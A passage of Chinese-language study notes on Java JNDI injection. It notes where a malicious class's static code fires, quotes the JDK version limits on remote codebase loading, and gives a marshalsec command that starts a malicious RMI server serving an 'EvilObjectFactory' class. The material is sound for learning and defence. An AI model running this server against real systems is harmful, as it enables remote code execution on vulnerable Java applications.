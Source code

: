![image-20221126150200003](img/image-20221126150200003.png)

static的恶意类是在`VersionHelper12`触发的

![image-20221126150112276](img/image-20221126150112276.png)

#### 限制

>JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false

#### marshalsec构建恶意rmi服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:1098/#EvilObjectFactory 1099
```
